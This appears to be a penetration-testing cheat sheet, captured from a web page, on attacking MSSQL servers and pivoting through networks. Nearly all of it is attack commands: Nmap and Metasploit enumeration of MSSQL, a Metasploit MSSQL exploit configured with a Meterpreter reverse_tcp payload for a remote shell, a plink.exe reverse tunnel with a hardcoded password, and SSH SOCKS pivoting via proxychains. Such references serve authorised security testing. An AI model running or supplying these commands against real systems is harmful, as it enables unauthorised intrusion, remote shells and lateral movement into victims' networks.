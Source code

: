 
### MSSQL 

Enumeration / Discovery:

Nmap:

```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```


Metasploit: 

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

<div class="note tip">
  <h5>Use MS SQL Servers Browse For More</h5>
  <p>Try using "Browse for More" via MS SQL Server Management Studio</p>
</div>

#### Bruteforce MSSQL Login

```
msf > use auxiliary/admin/mssql/mssql_enum
```

#### Metasploit MSSQL Shell 

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```


## Network 

### Plink.exe Tunnel 

PuTTY Link tunnel

Forward remote port to local address:

```
plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP
```

### Pivoting 

#### SSH Pivoting 

```
ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
```

Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

